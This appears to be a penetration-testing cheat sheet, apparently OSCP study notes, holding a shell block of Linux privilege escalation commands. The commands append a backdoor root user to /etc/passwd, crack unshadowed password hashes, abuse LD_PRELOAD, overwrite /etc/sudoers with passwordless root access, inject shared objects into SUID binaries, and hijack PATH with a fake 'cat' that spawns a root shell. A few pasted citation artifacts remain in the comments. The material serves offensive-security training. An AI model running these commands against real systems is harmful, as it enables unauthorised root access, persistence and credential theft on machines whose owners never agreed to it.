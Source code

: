
### ⬆ PrivEsc Vectors
```shell

# Check Linux PrivEsc Methodology: [[Methodology For OSCP#🛠️ Privilege Escalation Vectors#🐧 Linux]] 

# for automated priv esc vectors finding
chmod +x linpeas.sh && ./linpeas.sh | tee filename.txt 

# if /etc/passwd writable then
mkpasswd -m sha-512 newpasswordhere  # same as below 
openssl passwd w00t   # generate passwd file hash 
echo 'root2:$1$jHnmMC8j$eIN3rfj8J9NaKYjKLwt9M/:0:0:root:/root:/bin/bash' >> /etc/passwd


su
# if /etc/shadow readable
unshadow passwd.txt shadow.txt > passwords.txt # now crack it

# SUDO LD_PRELOAD
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find


# SUID binary gtfobins

# [linux capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)


# sudoers file perms
echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers
echo 'kali ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers

# SUID Binaries
# shared object injection within SUID and SGID binary
strace /usr/local/bin/suid-binary 2>&1 | grep -iE "open|access|no such file"
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c  # add the malicious so in place of missing


# ABUSING SHELL FEATURES
# In Bash versions <4.2-048, export functions to run instead of original executables
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service

# PATH Hijacking
# If a program (e.g. an SUID binary) invokes tools like `cat`, `ls`, or `ps` without full paths,
# you can place your malicious binary earlier in $PATH or manipulate $PATH variable and gain code execution under escalated privileges.

# Example: hijacking an SUID wrapper that runs `cat`
mkdir /tmp/attack && cd /tmp/attack
echo 'exec /bin/sh' > cat
chmod +x cat
export PATH="/tmp/attack:$PATH"
# Now when the SUID binary runs `cat`, it executes your shell as root

# – Relative or unsanitized path usage in SUID/root scripts: placing tools in CWD or early in $PATH can hijack exec calls :contentReference[oaicite:0]{index=0}

# – Cron jobs or services invoking commands by name: if they use PATH and run as root, dropping malicious versions in a writable dir in PATH can hijack them :contentReference[oaicite:1]{index=1}

```